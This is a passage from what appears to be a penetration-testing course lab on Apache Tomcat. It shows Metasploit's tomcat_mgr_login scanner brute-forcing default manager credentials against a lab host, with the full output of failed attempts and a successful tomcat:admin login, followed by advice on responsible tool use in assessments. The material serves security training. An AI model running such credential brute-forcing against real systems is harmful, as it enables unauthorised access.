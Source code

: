    USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST             web01.inlanefreight.local                                                       no        HTTP server virtual host
</code></pre>
<p>We hit <code>run</code> and get a hit for the credential pair <code>tomcat:admin</code>.</p>
<pre><code class="language-shell-session">msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</code></pre>
<p>It is important to note that there are many tools available to us as penetration testers. Many exist to make our work more efficient, especially since most penetration tests are "time-boxed" or under strict time constraints. No one tool is better than another, and it does not make us a "bad" penetration tester if we use certain tools like Metasploit to our advantage. Provided we understand each scanner and exploit script that we run and the risks, then utilizing this scanner properly is no different from using Burp Intruder or writing a custom Python script. Some say, "work smarter, not harder." Why would we make extra work for ourselves during a 40-hour assessment with 1,500 in-scope hosts when we can use a particular tool to help us? It is vital for us to understand <code>how</code> our tools work and how to do many things manually. We could manually try each credential pair in the browser or script this using <code>cURL</code> or Python if we choose. At the very least, if we decide to use a certain tool, we should be able to explain its usage and potential impact to our clients should they question us during or after the assessment.</p>